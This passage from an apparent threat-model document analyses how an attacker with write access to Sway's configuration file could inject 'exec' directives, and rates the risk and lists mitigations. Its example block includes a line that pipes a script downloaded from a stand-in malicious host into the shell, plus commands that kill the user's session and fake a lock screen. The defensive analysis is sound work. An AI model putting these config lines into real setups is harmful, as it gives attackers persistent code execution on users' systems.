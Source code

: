 #### 4.3 Breakdown: Inject Malicious Configuration

Once the attacker has gained access to the Sway configuration files, the next step is to inject malicious commands. Sway's configuration file allows users to define various settings, including commands to be executed on startup.

##### 4.3.1 Attack Vector: Execute Arbitrary Commands on Startup [HIGH-RISK PATH END].

*   **Likelihood:** Medium (if config access is gained).
*   **Impact:** High (arbitrary command execution).
*   **Effort:** Low.
*   **Skill Level: Basic.
*   **Detection Difficulty:** Medium.

**Deep Dive:**

The attacker can inject malicious commands into the Sway configuration file using directives like `exec`. For example, they could add lines like:

```
exec pkill -u $USER  # Disrupt user session
exec wget -qO- http://malicious.site/payload.sh | sh # Download and execute a malicious script
exec swaylock -f -s error # Lock the screen with a fake error message
```

When Sway starts, it will execute these commands with the user's privileges. This allows the attacker to:

*   **Gain Persistence:**  The malicious commands will be executed every time the user logs in.
*   **Install Malware:** Download and execute malicious software.
*   **Exfiltrate Data:**  Send sensitive information to a remote server.
*   **Disrupt Service:**  Terminate processes or lock the user's screen.
*   **Establish Backdoors:** Create user accounts or open network ports for remote access.

**Why the Ratings?**

*   **Likelihood (Medium - if config access is gained):**  Once the attacker has write access to the configuration file, injecting simple `exec` commands is straightforward.
*   **Impact (High - arbitrary command execution):**  The ability to execute arbitrary commands provides the attacker with significant control over the system.
*   **Effort (Low):**  Adding a few lines to a text file requires minimal effort.
*   **Skill Level (Basic):**  Understanding the `exec` directive in Sway's configuration is relatively simple.
*   **Detection Difficulty (Medium):**  While manual inspection of the configuration file can reveal malicious commands, automated detection can be challenging without specific signatures or behavioral analysis.

**Mitigation Strategies:**

*   **Secure Configuration Defaults:**  Ensure Sway's default configuration is secure and minimizes the risk of unintended command execution.
*   **Configuration File Integrity Checks:** Implement mechanisms to verify the integrity of the Sway configuration file at startup, alerting users to any unauthorized modifications.
*   **Restricting `exec` Usage:**  Consider options to restrict or monitor the use of the `exec` directive in the configuration file, potentially through security extensions or custom scripts.
*   **Process Monitoring:** Implement process monitoring tools to detect and alert on the execution of suspicious commands initiated by Sway.
*   **Regular Configuration Review:** Encourage users to regularly review their Sway configuration file for any unexpected or suspicious entries.
*   **Read-Only Configuration:** Explore the possibility of making the configuration file read-only for the user after initial setup, requiring administrative privileges for modifications. This would significantly hinder this attack vector.
